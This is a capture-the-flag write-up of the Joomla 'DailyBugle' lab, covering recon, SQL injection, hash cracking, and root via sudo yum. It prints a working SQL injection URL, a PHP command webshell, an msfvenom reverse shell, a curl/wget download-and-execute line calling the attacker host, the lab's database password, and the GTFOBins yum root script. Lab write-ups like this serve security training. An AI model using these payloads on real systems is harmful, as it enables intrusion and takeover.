










# DailyBugle

Compromise a Joomla CMS account via SQLi, practice cracking hashes and escalate your privileges by taking advantage of yum.

# Recon

```
❯ sudo rustscan -a 10.10.212.208 -- -n -Pn -sV -sC -oA nmap-tcp-all

Nmap scan report for 10.10.212.208
Host is up, received user-set (0.080s latency).
Scanned at 2021-10-08 15:54:20 EDT for 51s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
| http-methods:
|_  Supported Methods: OPTIONS
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   syn-ack ttl 61 MariaDB (unauthorized)
```

Starting with the web page, standard scans:

```sh
❯ ulimit -n 8192 # prevent file access error during scanning
❯ whatweb -v -a3 http://10.10.212.208 | tee whatweb.log
# Summary   : PHP[5.6.40], HttpOnly[eaa83fe8b963ab08ce9ab7d4a798de05], Script[application/json], Apache[2.4.6], X-Powered-By[PHP/5.6.40], Bootstrap, HTML5, HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.6.40], PasswordField[password], JQuery, MetaGenerator[Joomla! - Open Source Content Management], Cookies[eaa83fe8b963ab08ce9ab7d4a798de05]

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster.txt -u http://10.10.212.208
http://10.10.212.208/bin                  (Status: 200) [Size: 31]
http://10.10.212.208/cache                (Status: 200) [Size: 31]
http://10.10.212.208/cgi-bin/             (Status: 403) [Size: 210]
http://10.10.212.208/components           (Status: 200) [Size: 31]
http://10.10.212.208/configuration.php    (Status: 200) [Size: 0]
http://10.10.212.208/images               (Status: 200) [Size: 31]
http://10.10.212.208/includes             (Status: 200) [Size: 31]
http://10.10.212.208/layouts              (Status: 200) [Size: 31]
http://10.10.212.208/language             (Status: 200) [Size: 31]
http://10.10.212.208/LICENSE.txt          (Status: 200) [Size: 18092]
http://10.10.212.208/libraries            (Status: 200) [Size: 31]
http://10.10.212.208/media                (Status: 200) [Size: 31]
http://10.10.212.208/modules              (Status: 200) [Size: 31]
http://10.10.212.208/plugins              (Status: 200) [Size: 31]
http://10.10.212.208/README.txt           (Status: 200) [Size: 4494]
http://10.10.212.208/robots.txt           (Status: 200) [Size: 836]
http://10.10.212.208/templates            (Status: 200) [Size: 31]
http://10.10.212.208/tmp                  (Status: 200) [Size: 31]
http://10.10.212.208/web.config.txt       (Status: 200) [Size: 1690]
```

Browsing to main page:


Checking out `README.txt` we see a partial version number for Joomla (3.7):


:exclamation: :exclamation:

NOTE: after looking at a writeup later, I found you can get the exact version of Joomla by visiting the following URL:

- http://host-ip/administrator/manifests/files/joomla.xml


Poking around under the `/administrator` path would have yielded these results eventually.

At `/administrator` there is a Joomla admin panel login:


And at the next level (`/administrator/manfiests`, found with gobuster), there is an index-of page to browse the directory tree:


:exclamation: :exclamation:

Checking out searchsploit for `joomla 3.7`:


Looks like there might be SQL injection vulnerabilities?

Starting with first result:

- https://www.exploit-db.com/exploits/44227

It is a php script, which has this interesting part:

```php
$inject=$target.'/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=';

$payload='1,extractvalue(0x0a,concat(0x0a,(select/**/concat(0x7e7e7e,hex(table_name),0x7e7e7e)/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1)))=1';
$final_url=$inject.$payload;
```

So maybe some injection in the `com_fields` option. This lines up with the title of the 2nd searchsploit result.

- https://www.exploit-db.com/exploits/42033

This one highlights the same vulnerable URL: `/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`

It also gives 3 methods of exploiting

- boolean-based blind
- error-based
- time-based blind

Browsing to the following URL (from exploit 44227):

- `http://10.10.212.208/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1,extractvalue(0x0a,concat(0x0a,(select/**/concat(0x7e7e7e,hex(table_name),0x7e7e7e)/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1)))=1`


This yields the hex string "6662396A355F617373657473", which decodes to "fb9j5_assets".

Definitely vulnerable!

# Exploit

Googling for `joomla 3.7 exploit` turns up a python script that might help:

- https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

Testing it out.


The script works like a charm. Got super user `jonah` with a password hash!

Looking at hashcat example hashes (https://hashcat.net/wiki/doku.php?id=example_hashes), it seems this fits the format of `bcrypt` (`$2*$`), mode 3200. Plugging into hashcat:

```sh
❯ hashcat -O -a0 -w3 --quiet -m 3200 '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /mnt/vm-share/rockyou.txt
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:spiderman123
# this took over 25 mins to crack on my kali VM
```

So jonah's password is `spiderman123`!

That logs us into the admin panel at `/administrator`:



First thought is to drop a pre-made webshell. Googling for 'joomla webshell' turns up an interesting page:

- [https://seclists.org/oss-sec/2015/q2/759](https://seclists.org/oss-sec/2015/q2/759)

Key parts:

```
In the "media manager" options, you can add to the list of allowed
file extensions...
As it turns out, mod-php, by default on Ubuntu, will execute any files
with an extension that matches this regex : "^.ph(p[345]?|t|tml|ps)$"
If you rename your webshell shell.php3, and add "php3" to the allowed
file extensions, and it will upload just fine.
```

Going to give that a shot. Clicked on "System" dropdown, then "Global Configuration", then "Media", then add "phtml" to list of extensions:



Then click "Save & Close" button at the top, and it brings you to a new page where you can upload media files:



First, make a malicious file named derp.phtml:

```sh
❯ echo '<?php system($_GET["cmd"]); ?>' > derp.phtml
```

Then click "Upload" and select your new file, then click "Start Upload":



But it doesn't show up in the list of files? Trying to browse to the url `/images/derp.phtml` also fails:



Went back to settings and tried changing more settings to stop checking MIME types and not restrict downloads, and add "phtml" to the list of image files:



But still, no luck. Maybe if I make the file look like a gif?

```sh
❯ echo 'GIF8;<?php system($_GET["cmd"]); ?>' > derp.gif
```

But that won't upload either. :disappointed:

Maybe the original idea of a webshell will still work if I upload it as a Joomla extension. I found the WSO Shell, which looks promising:

- [https://extensions.joomla.org/extension/wso-command-shell-and-file-manager/](https://extensions.joomla.org/extension/wso-command-shell-and-file-manager/)

But unfortunately you have to pay for it? And developing my own Joomla plugin seems overkill right now:

- [https://docs.joomla.org/J3.x:Creating_a_Plugin_for_Joomla](https://docs.joomla.org/J3.x:Creating_a_Plugin_for_Joomla)

But this article gave me the idea that I don't have to upload a Joomla plugin, but instead I can modify the php of the template files!

- [https://www.hackingarticles.in/joomla-reverse-shell/](https://www.hackingarticles.in/joomla-reverse-shell/)

And another POC showed me where to browse to trigger the template code:

- [https://packetstormsecurity.com/files/142731/Joomla-3.x-Proof-Of-Concept-Shell-Upload.html](https://packetstormsecurity.com/files/142731/Joomla-3.x-Proof-Of-Concept-Shell-Upload.html)

Which would be under the "/templates" directory.

So click the "Extensions" dropdown, then "Templates" > "Templates". This brings you to a page with templates that you can edit.



Click on the "Beez3 Details and Files" one (either one should work?), then click "New File". This brings up a dialog to create a new file:



I named it "derp" and set the type to "php". Note: you can't include the extension in the file name because it gets added automatically (and it will restrict you to alphanumeric characters plus hyphen and underscore).

Next step is to add code to your new file that gives you a webshell:



Then browse to the new webshell at `/templates/beez3/derp.php?cmd=id` and we see it executed the `id` command!



Run a quick `uname -a` in the webshell to get the kernel info:

```
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

And `which wget` to check if we can download files

```
http://10.10.124.218/templates/beez3/derp.php?cmd=which%20wget

/usr/bin/wget
```

Now prep a reverse shell, upload, and execute!

```sh
# generate reverse shell
❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.6.38.182 LPORT=443 -f elf -o rsh.elf
# start listener
❯ sudo nc -lvnp 443
# serve file over http
❯ sudo python3 -m http.server 80
# make the victim download and execute the reverse shell
❯ curl -G http://10.10.124.218/templates/beez3/derp.php --data-urlencode "cmd=wget -cP /tmp 10.6.38.182/rsh.elf && chmod +x /tmp/rsh.elf && /tmp/rsh.elf"
```

## privesc

Download and execute linpeas.

Find password for MySQL DB in php config file (`/var/www/html/configuration.php:`) from linpeas: `root:nv5uz9r3ZEDzVjNu`

This password works for user `jjameson` (either for `ssh` or `su`)!

```sh
$ su - jjameson
Password: nv5uz9r3ZEDzVjNu
$ id
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
```

Running `sudo -l` we see:

```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Yum is a [GTFObin](https://gtfobins.github.io/gtfobins/yum/#sudo), with the following exploit for a root shell:

```sh
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Running those commands gives us root!
